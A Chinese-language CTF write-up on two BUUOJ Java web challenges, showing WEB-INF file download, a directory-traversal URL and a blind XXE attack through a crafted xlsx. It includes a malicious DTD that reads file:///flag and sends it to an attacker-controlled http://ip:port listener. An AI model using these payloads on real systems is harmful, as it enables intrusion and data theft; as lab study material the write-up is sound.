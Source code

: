 ```yaml
---
title: buu一道简单java web
date: 2024-10-09 19:14:26
permalink: /pages/24d392/
sidebar: false
categories:
  - wp
tags:
  - java
  - ctf
author: 
  name: the0n3
  link: https://the0n3.top
---
```

## [RoarCTF 2019]Easy Java

buu平台一道简单java web[[RoarCTF 2019]Easy Java](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Java)

![1](/medias/buujava/1.png)

打开题目，一个登录页面，可以bp爆破出弱密码`admin/admin888`

![2](/medias/buujava/2.png)

登录页没什么内容

![3](/medias/buujava/3.png)

尝试首页的`help`，路由像是存在任意文件下载漏洞，没有下载`help.docx`文件，换成post请求才能下载文件，这是什么题目，这也是play的一环吗

post发送请求`filename=help.docx`，下载`help.docx`文件，没用

关于`WEB-INF`目录

::: tip
 WEB-INF主要包含一下文件或目录： 
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。 
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中 
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件 
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。 
/WEB-INF/database.properties：数据库配置文件
:::

下载`/WEB-INF/web.xml`文件，看看服务配置项，里面记录了FLAG的controller

![5](/medias/buujava/5.png)

所以可以找`/WEB-INF/classes/com/wm/ctf/FlagController.class`，下载class文件，用[jd-gui下载](https://java-decompiler.github.io/)反编译

![6](/medias/buujava/6.png)

flag base64编码了，解码拿到flag


## [网鼎杯 2020 青龙组]filejava

上传文件后，可以下载，下载功能存在目录穿越漏洞

![7](/medias/buujava/7.png)

![8](/medias/buujava/8.png)

穿越下载java web的配置文件web.xml

![9](/medias/buujava/9.png)

下载实现主要功能的class文件`DownloadServlet.class`,`ListFileServlet.class`,`UploadServlet.class`

在java web中，这些文件在`/WEB-INF/classes`目录下的自定义package下，也就是这里的`/cn/abc/servlet`下

`url/DownloadServlet?filename=../../../../WEB-INF/classes/cn/abc/servlet/DownloadServlet.class`下载class文件

`jd-gui`反编译class文件，审计源码

审计`DownloadServlet.class`，可以看到存在`flag`时会禁止下载

![10](/medias/buujava/10.png)

审计`ListFileServlet.class`，没有什么可以利用的

![11](/medias/buujava/11.png)

审计`UploadServlet.class`，如果上传的文件名是`excel-`开头，`.xlsx`结尾，那么会尝试读取文件的xml文件。doc， xlsx等文件实质是zip压缩包，里面存在一个xml文件，可以创建一个正常的excel文件，改扩展名为zip，把里面内容替换为恶意xml内容，再压缩，改回xlsx扩展名，上传。打一个xxe漏洞

![12](/medias/buujava/12.png)

```java
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            // 读取xml文件，引用vps的dtd文件，利用xxe漏洞读取flag
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }
```

这是创建的excel文件修改为zip文件里的xml文件内容，写好后再全部压缩到一个包里，扩展名改回`xlsx`，文件名`excel-1.xlsx`

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE data SYSTEM "http://ip:port/1.dtd">
<data>&send;</data>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```


vps进入一个空目录，新建1.dtd文件，内容为

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://ip:port/?%file;'>">
%all;
```

开启一个web服务，端口要和上面xml，dtd的端口一致

```bash
python3 -m http.server 4444
```

上传文件，可以在日志看到目标主机带着flag的访问

![14](/medias/buujava/14.png)

![13](/medias/buujava/13.png)



参考：

- [BUUCTF：[RoarCTF 2019]Easy Java](https://blog.csdn.net/mochu7777777/article/details/109572179)
- [常见java反编译工具 _](https://hksanduo.github.io/2021/06/22/2021-06-22-java-decompiler-tools/#)
- [网鼎杯2020青龙组 web writeup ](https://www.cnblogs.com/W4nder/p/12866365.html)